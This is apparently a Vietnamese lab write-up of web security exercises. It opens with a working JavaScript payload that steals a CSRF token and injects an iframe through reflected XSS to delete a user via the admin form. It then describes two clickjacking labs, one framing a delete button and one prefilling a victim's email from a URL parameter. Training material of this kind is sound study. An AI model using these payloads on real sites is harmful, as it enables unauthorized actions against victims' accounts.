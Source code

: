 >![](https://i.imgur.com/cob7Lxk.png)

Chỉ cần nhập username vào ô input và submit button `Delete user` là xóa được user và solve bài lab

```javascript!
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url){
	fetch(url).then(r=>r.text().then(text=>
	{
	xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
	}
	))
}
```
>![](https://i.imgur.com/Y7N4P0S.png)


<hr>


## CLICKJACKING

### Bài 1: Basic clickjacking with CSRF token protection

>![](https://i.imgur.com/DHIOrsj.png)

Đề yêu cầu ta nhúng 1 trang web với `z-index=2`, và đè lên frame đó bằng 1 thẻ `div` có `z-index=1` để dụ nạn nhân click lên nút `delete user`

Ta tạo html như yêu cầu của đề, bỏ nó trong exploit server và send to victim.
>![](https://i.imgur.com/KAjdefN.png)

>![](https://i.imgur.com/jxw0H7x.png)

<hr>


### Bài 2: Clickjacking with form input data prefilled from a URL parameter

>![](https://i.imgur.com/wo5gEHl.png)

Mục tiêu của bài lab là thay đổi email của nạn nhân bằng việc sử dụng URL param. 

Kiểm tra ta thấy trang web nhận tham số từ URL và nhúng nó vào form input.

>![](https://i.imgur.com/OZQTevH.png)

Vì vậy, ta có thể triển khai một cuộc tấn công Clickjacking với frame được nhúng bằng đường dẫn `/my-account?email=abc@gmail.com`, và dụ victim click update email (chức năng này không đòi hỏi nhập mật khẩu hay gì cả).
